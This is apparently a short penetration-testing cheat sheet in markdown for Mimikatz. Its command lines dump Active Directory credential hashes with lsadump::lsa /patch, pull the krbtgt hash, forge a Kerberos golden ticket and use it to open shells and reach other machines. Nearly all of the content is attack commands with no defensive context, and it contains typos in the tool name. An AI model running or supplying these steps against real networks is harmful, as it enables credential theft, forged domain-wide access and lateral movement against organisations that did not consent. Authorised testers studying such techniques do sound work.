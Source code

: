 ```yaml
---
description: >-
  Mimikatz is a very popular and powerful post-exploitation tool mainly used for
  dumping user credentials inside of a active directory network
---
```


# Mimiktaz

```
mimikaz.exe
```

Ensure privileges are set

```
privilege::debug
```

dump the hashes

```
lsadump::lsa /patch
```

Crack the hashes !\
\


### Kerberos Golden ticket

```
lsadump::lsa /inject /name:krbtgt
```

Interesting stuff:

<figure><img src="../../.gitbook/assets/Yzq71aI.png" alt=""><figcaption></figcaption></figure>

Create the ticket

```
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Use the ticket

```
misc::cmd
```

Access Other machines

```
dir \\<MACHINE>\
```

